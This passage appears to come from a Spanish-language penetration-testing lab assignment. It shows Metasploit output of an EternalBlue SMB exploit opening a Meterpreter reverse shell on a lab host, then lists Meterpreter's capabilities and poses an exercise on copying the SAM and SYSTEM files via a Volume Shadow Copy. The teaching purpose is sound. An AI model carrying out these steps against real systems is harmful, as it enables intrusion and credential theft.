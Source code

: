 ```bash
[*] 10.0.2.15:445 - Trying exploit with 12 Groom Allocations.
[*] 10.0.2.15:445 - Sending all but last fragment of exploit packet
[*] 10.0.2.15:445 - Starting non-paged pool grooming
[+] 10.0.2.15:445 - Sending SMBv2 buffers
[+] 10.0.2.15:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.0.2.15:445 - Sending final SMBv2 buffers.
[*] 10.0.2.15:445 - Sending last fragment of exploit packet!
[*] 10.0.2.15:445 - Receiving response from exploit packet
[+] 10.0.2.15:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.0.2.15:445 - Sending egg to corrupted connection.
[*] 10.0.2.15:445 - Triggering free of corrupted buffer.
[*] Sending stage (201798 bytes) to 10.0.2.15
[+] 10.0.2.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.2.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.2.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (10.0.2.9:4444 -> 10.0.2.15:50496) at 2024-11-04 09:33:42 -0800

meterpreter > 

```

- Obtener una sesión Meterpreter en la máquina objetivo significa que el atacante ha logrado establecer una conexión de control remoto con el sistema comprometido utilizando la herramienta Meterpreter, la cual forma parte del framework de 

- **Qué es Meterpreter y su Significado en el Contexto del Ataque**
  - Meterpreter es un payload avanzado desarrollado por Metasploit que permite el control de un sistema de forma sigilosa y modular. Cuando el exploit es exitoso, Meterpreter se carga en la memoria del sistema objetivo sin tocar el disco, lo que dificulta su detección por herramientas de seguridad tradicionales como antivirus o IDS (Sistemas de Detección de Intrusiones).

- **Capacidades que Proporciona una Sesión Meterpreter**
  - Obtener una sesión Meterpreter permite al atacante realizar una variedad de acciones maliciosas en la máquina objetivo, incluyendo:

  - **Navegar por el sistema de archivos**: Acceso completo al sistema de archivos, permitiendo ver, copiar, mover o eliminar archivos.
  - **Ejecutar comandos**: Permite ejecutar comandos del sistema de forma remota en la máquina objetivo.
  - **Captura de información sensible**: Como contraseñas y hashes de contraseñas, así como realizar capturas de pantalla y activar micrófonos o cámaras si están disponibles.
  - **Escalada de privilegios**: Meterpreter incluye módulos que permiten buscar y explotar vulnerabilidades locales para elevar los privilegios del usuario actual, permitiendo acceso como administrador o SYSTEM.
  - **Pivoting y movimiento lateral**: El atacante puede usar la máquina comprometida como punto de apoyo para atacar otras máquinas en la red interna del objetivo.
  - **Exfiltración de datos**: Posibilita la transferencia de archivos desde el sistema objetivo al atacante, facilitando el robo de información.

### 2.5. Exfiltración de Archivos SAM y SYSTEM (2 puntos)

- Utilizando la sesión de Meterpreter establecida, explica los pasos para infiltrar un script o herramienta que te permita crear una copia de volumen de sombra (Volume Shadow Copy) de la unidad principal (C:) del servidor.
